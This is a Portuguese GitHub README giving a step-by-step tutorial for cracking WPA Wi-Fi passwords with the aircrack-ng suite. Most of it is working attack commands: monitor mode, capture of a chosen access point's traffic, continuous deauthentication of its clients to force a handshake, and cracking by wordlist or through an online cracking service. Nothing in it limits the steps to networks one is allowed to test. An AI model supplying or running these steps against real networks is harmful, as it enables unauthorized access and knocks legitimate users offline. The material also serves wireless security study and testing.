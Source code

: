 # Wifi Hacking Passwords

Vamos utilizar uma metodologia de aprendizado.

Pré requisitos:
 - SO Ubuntu 22.04
 - Placa Wifi
 - Instalação dos pacotes abaixo:
```shell
apt update;apt install -y airgraph-ng aircrack-ng
```
Start check nas interface:
```shell
airmon-ng check kill && airmon-ng start wlp3s0
```
![fotowifi](https://i.postimg.cc/cJV78w8s/image.png)

Scanner do SSID Disponiveis:
```shell
airodump-ng wlp3s0
```
![fotoexpamle](https://i.postimg.cc/brqtQTYj/image.png)

Agora scanneado pega um SSID de sua escolha e visualize o canal exemplo 9.
 - Exemplo BSSID: C4:0D:96:E7:09:44
 - Canal: 9
 - verificando o Fabricante se necessário: `grep C40D96 /usr/share/ieee-data/oui.txt`
 - ![fabricanteplaca](https://i.postimg.cc/JhwtNqKd/image.png)
```shell
airodump-ng -c 9 --bssid C4:0D:96:E7:09:44 -w kelseysantos wlp3s0
```
![escanner](https://i.postimg.cc/vHcmCjNN/image.png)

Utilizando agora o Aireplay para injetar drow nos clientes:
```shell
aireplay-ng -a C4:0D:96:E7:09:44 --deauth 0 wlp3s0
```
Ele vai criar arquivos dentro da pasta um desses arquivos é o kelseysantos-01.cap onde você irá verificar se tem **handshake**, com o comando **aircrack-ng**.
```shell
aircrack-ng kelseysantos-01.cap
```
![handshake](https://i.postimg.cc/XqZ0DMYK/image.png)

Pronto agora é só utilizar um site para gerar um arquivo h22000 como o [HASHCAT](https://hashcat.net/cap2hashcat/).
 - Converta seu arquivo [kelseysantos-01.cap](https://i.postimg.cc/jjZ0xqWQ/image.png) no site, faça o upload do arquivo e clique em **convert** ele vai retornar um arquivo com extensão **.hc22000**, exemplo do arquivo: **1356859_1733616685.hc22000**.
 - Agora entre no site [www.onlinehashcrack.com](https://bit.ly/4fY5C8K) e faça o seu cadastro para upar o seu arquivo hc22000 e aguardar o resultado de uma senha.

Outra forma é utilizar um banco de palavras chamado **worldlist** ou **worldpass**, juntamente com o **aircrack-ng**, no comando abaixo:
```shell
aircrack-ng kelseysantos-01.cap -w worldlist.txt
```

Obrigado.

# Kelsey Santos

![card](https://github-readme-stats.vercel.app/api?username=kelseysantos&theme=default&show_icons=true)

![kelseysantos](https://github-readme-stats.vercel.app/api/top-langs/?username=kelseysantos&hide=html&layout=compact&theme=highcontrast)